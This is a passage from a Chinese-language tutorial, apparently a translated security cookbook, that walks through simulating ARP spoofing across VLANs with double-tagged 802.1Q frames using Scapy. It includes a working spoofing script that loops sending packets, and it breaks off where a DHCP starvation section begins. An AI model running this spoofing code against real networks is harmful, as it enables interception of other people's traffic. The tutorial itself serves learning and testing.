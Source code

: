 由于 VLAN 将广播流量限制在同一个 VLAN，因此我们在这里用 VLAN 标记每个数据包，并用目标 VLAN 标记额外的数据包。

# 怎么做。。。

以下是通过 VLAN 跳转模拟 ARP 欺骗攻击的步骤：

1.  创建一个新的`arp-spoofing-over-vlan.py`文件并在编辑器中打开。
2.  导入模块和设置变量：

```
import time
from scapy.all import *
iface = "en0"
target_ip = '192.168.1.2'
fake_ip = '192.168.1.3'
fake_mac = 'c0:d3:de:ad:be:ef'
our_vlan = 1
target_vlan = 2  
```

3.  使用两个 802.1Q 标签创建 ARP 数据包：

```
ether = Ether()
dot1q1 = Dot1Q(vlan=our_vlan)
dot1q2 = Dot1Q(vlan=target_vlan)
arp = ARP(hwsrc=fake_mac, pdst=target_ip, psrc=fake_ip, op="is-at")
packet = ether/dot1q1/dot1q2/arp  
```

以下是带有两个 802.1Q 标签和一个 ARP 层的数据包：

![](../images/00059.jpeg)

4.  以无限循环发送数据包：

```
try:
    while True:
       sendp(packet, iface=iface)
         time.sleep(10)
  except KeyboardInterrupt:
      print("Exiting.. ")
      sys.exit(0)  
```

5.  使用所需权限运行脚本：

```
sudo python3 arp-spoofing-over-vlan.py  
```

# 饥饿

DHCP 是帮助将客户端的 IP 地址分配到 LAN 的协议。分配 DHCP 的过程包括四个步骤——DHCPDiscover、DHCPOffer、DHCPRequest 和 DHCP ACK。
